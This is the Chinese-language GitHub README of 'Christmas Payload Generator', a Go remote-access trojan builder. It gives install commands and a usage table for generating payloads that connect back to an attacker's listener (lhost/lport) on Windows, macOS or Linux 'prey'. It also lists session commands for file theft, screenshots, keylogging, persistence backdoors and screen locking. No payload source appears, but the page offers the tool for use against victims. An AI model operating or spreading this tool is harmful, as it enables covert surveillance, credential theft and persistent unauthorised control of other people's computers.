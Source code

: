 <p align="center">
  <img src="https://raw.githubusercontent.com/CooChristmas/Christmas/master/content/logo.png">
</p>

<h1 align="center">Christmas Payload Generator</h1>
<p align="center">
  <a href="https://golang.org/">
    <img src="https://img.shields.io/badge/Golang-1.11-blue.svg">
  </a>
  <a href="https://github.com/CooChristmas/Christmas/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/CooChristmas/Christmas/blob/master/main.go">
    <img src="https://img.shields.io/badge/Release-3.0-red.svg">
  </a>
    <a href="https://opensource.org">
    <img src="https://img.shields.io/badge/Open%20Source-%E2%9D%A4-brightgreen.svg">
  </a>
</p>

<p align="center">
  ```Christmas```可以生成有效负载并控制远程操作系统的Poc。
</p>

## 如何安装
```bash
$ go get github.com/CooChristmas/Christmas
$ go get github.com/kbinani/screenshot
$ go get github.com/lxn/win
$ go get github.com/matishsiao/goInfo
$ go get golang.org/x/sys/windows
$ cd ~/go/src/github.com/CooChristmas/Christmas
$ go run main.go
```

## 如何使用

命令    | 参数及介绍
:-----      |:-----
`generate`  |生成负载 (```e.g```. `generate lhost=192.168.0.100 lport=8080 fname=chaos --windows`)
`lhost=`    |指定猎物ip
`lport=`    |指定猎物端口
`fname=`    |指定输出文件
`--windows` |猎物系统为``` Windows```
`--macos`   |猎物系统为 ```Mac OS```
`--linux`   |猎物系统为 ```Linux```
`listen`    |从猎物的另一个端口监听 (```e.g```. `listen lport=8080`)
`serve`     |服务文件
`exit`      |退出

命令    | 参数及介绍
:-----                  |:-----
`download`              |下载文件
`upload`                |上传文件
`screenshot`            |截屏
`keylogger_start`       |键盘记录
`keylogger_show`        |输出键盘记录内容
`persistence_enable`    |维持访问之插后门
`persistence_disable`   |移除后门
`getos`                 |获取系统名称
`lockscreen`            |锁定猎物屏幕
`openurl`               |打开通知的```URL```
`bomb`                  |鱼叉炸弹
`clear`                 |清屏
`back`                  |挂起会话
`exit`                  |关闭会话
